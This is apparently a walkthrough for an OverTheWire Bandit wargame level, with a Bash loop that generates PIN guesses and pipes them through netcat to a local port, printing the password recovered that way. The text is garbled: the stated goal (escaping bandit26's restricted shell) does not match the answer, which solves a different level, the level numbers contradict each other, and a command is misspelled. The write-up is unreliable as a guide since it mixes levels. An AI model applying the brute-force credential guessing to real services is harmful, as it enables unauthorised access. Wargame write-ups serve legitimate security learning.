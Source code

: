 # Bandit Level 24 → Level 25

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

- `ssh`
- `cat`
- `more`
- `vi`
- `ls`
- `id`
- `pwd`

# Answer

To solve Bandit Level 25 → Level 26, you need to understand the shell being used for user bandit26 and find a way to break out of it. Here are the steps:

1. Log into the server for Level 25 using SSH. The command is:

   ```bash
   ssh bandit24@bandit.labs.overthewire.org -p 2220
   ```

   Enter the password when prompted (the password is the one you found in Level 24).

2. Determine if the shell has any limitations or restrictions. You can also use the `id` command to check your current user information:

   ```bash
   id
   ```

3. Explore the file system using basic commands like `ls`, `pwd`, and `cd` to understand the environment.

4. Create a temporary directory for brute-force script:

   ```bash
   mkdir /tmp/level25
   cd /tmp/level25
   ```

5. If the shell allows you to use a text editor like `vim`, you can use it to view and edit files:

   ```bash
   vim brute_force.sh
   ```

6. Paste the script:

   ```bash
   #!/bin/bash

   for i in {0..9}{0..9}{0..9}{0..9}

   do
         echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> list.txt;
   done
   ```

   This Bash script generates and prints strings by combining a fixed prefix (`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`) with numbers from `0000` to `9999` using a `for` loop. Each line of output consists of the prefix followed by a number from the specified range.

7. Change permission of the script for it to be executed:

   ```bash
   chomod u+x brute_force.sh
   ```

8. Execute script:

   ```bash
   ./brute_force.sh
   ```

9. Connect to port 30002 using netcat and with the generated list.

   ```bash
   cat list.txt | nc localhost 30002
   ```

   ```bash
   Correct!
   The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
   ```

10. Use the obtained password to log in to Level 26 using SSH:

    ```bash
    ssh bandit25@bandit.labs.overthewire.org -p 2220
    ```

Congratulations! You've completed Bandit Level 25 → Level 26. Keep going, and feel free to ask if you have any questions!
